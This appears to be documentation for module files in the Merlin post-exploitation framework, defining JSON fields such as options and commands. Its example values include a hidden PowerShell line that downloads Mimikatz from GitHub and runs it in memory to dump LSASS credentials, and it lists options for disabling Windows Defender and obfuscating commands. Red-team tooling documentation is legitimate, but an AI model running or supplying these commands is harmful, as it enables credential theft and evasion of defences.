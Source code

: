 # Merlin Module
Modules are used to perform a set of pre-defined actions or execute a
program on an agent. The modules are described using JavaScript Object
Notation (JSON). Modules will be stored in `platform/arch/language/type`
 directories. Every module _must_ have the `base` object and _may_ have
 additional objects. Examples of the module structures can be found in
 the `data/modules/templates` directory. All keys used when describing a
 module will be lowercase (i.e. name and NOT Name).

## Base
The `base` module is required and is the lowest level of describing a
module and its function.


 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 name   | string | The name of the module | "name": "MyModuleName"
 author | array of strings  | A list of the module's authors | "author": ["Russel Van Tuyl (@Ne0ndog)", "Victor Garcia"]
 path   | array of strings | The file path to the module| "path": ["C", "windows", "system32"]
 platform   | string | The target platform the module can run on | "platform": "linux"
 arch   | string | The target architecture the module can run on | "arch": "x64"
 lang   | string | The target language the module leverages | "lang": "powershell" or "lang": "bash"
 privilege | bool | Does the module require elevated privileges? | "privilege": true
 notes | string | Miscelaneous notes about the module | "notes": "This module doesn't work well on Ubuntu 14.04"
 remote | string | The remote path where the script associated with the module can be found | "remote": "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"
 local | array of strings | The local file system path where the script associated with the module can be found | "local": ["data", "src", "PowerSploit", "Exfiltration", "Invoke-Mimikatz.ps1"]
 options | array of objects | The configurable options for the module | "options": [{"name": "DumpCreds", "value": "true", "required": false, "description":"[Switch]Use mimikatz to dump credentials out of LSASS."}]
 description | string | A description of the module and its function | "description": "his script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory."
 commands | array of strings | A list of the commands to be executed on the host when running the script | "commands": ["powershell.exe", "-nop", "-w", "0", "\"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');","Invoke-Mimikatz", "{{DumpCreds.Flag}}", "{{DumpCerts.Flag}}", "{{Command}}", "{{ComputerName}}","\""]


### Remote vs Local
When the module leverages a script, it can be accessed with _either_ the
 `local` or `remote` values of the base module. The `local` specifies
 the file path on the server where the script can be found. Merlin _DOES
 NOT_ ship with scripts. However, they should be copied to the
 `data/source` directory using something like Git. For example, you move
 into the `data/source` direct and do a
 `git clone https://github.com/PowerShellMafia/PowerSploit.git`. When
the `local` source is used, the script is uploaded to the target from
the server. When the `remote` source is used, the script is downloaded
from that location to the target.

### Options
The `options` uses a special data type that requires 4 parts.

 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 name | string | The name of the option | "name": "ComputerName"
 value | string | The configured value for the option | "value": "127.0.0.1"
 required | bool | Is this option required? | "required": false
 flag   | string | The command line flag for the option | "flag": "-ComputerName"
 description | string | A short description of the option | "description": "The target computer name to run the script on"

`name` is the name of the option displayed to the user and is used as a
variable in the `commands` section of the module file.

Sometimes a command line flag starts with a single dash and other times
it starts with a double dash (i.e. -h or --help). Other times the
command line flag is not descriptive enough to present to the user.
For example `-x` would not be a good name to display to the user when
configuring a module. For these reasons, the `flag` value is separate
from the `name` value. The `name` value can be used to alias the `flag`
value.

### Commands
The `commands` section of the module is used to provide the commands
that are going to be executed on the host. The array should consist of
every command in its own list item. You do not need to account for
spaces. This is automatically done when the command is executed on the
host.

You specify the location of an `option` by using double curly brace and
the option's `name` value. For example if want to create a module to use
the PowerShell Get-Process cmdlet with an option to specify the process
name, the command section would like
`["Get-Process", "{{processName}}"]`. When the module is executed, the
`{{processName}}` variable is replace with the option's `flag` value
and `value` data. The option is removed from the command if the `value`
is empty. This should the most common and practical notation.

When the `flag` is just a switch, as in it has no value, set the option
in the command section using {{processName.Flag}}. When the module is
executed, only the flag value will be provided and not the `value` data.
 It is important to note that the `value` must be `true` for the flag to
 be set. All other values will result in the flag being not set.

When the command take a positional character with no flag, use
`{{processName.Value}}`. When the module is executed, it will be replace
 with the option's `value` data or removed if `value` is empty.

## Powershell
The `powershell` module is used to provide additional configuration
options that pertain to PowerShell commands. Support for this module
type is currently lacking. At this time is being used as placeholder
for future development.

 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 disableav | bool | Should Windows Defender be disabled prior to running the command? | "disableav" : true
 obfuscate | bool | Should the PowerShell command be obfuscated? | "obfuscate": false
 base64     | bool | Should the command be Base64 encoded? | "base64": true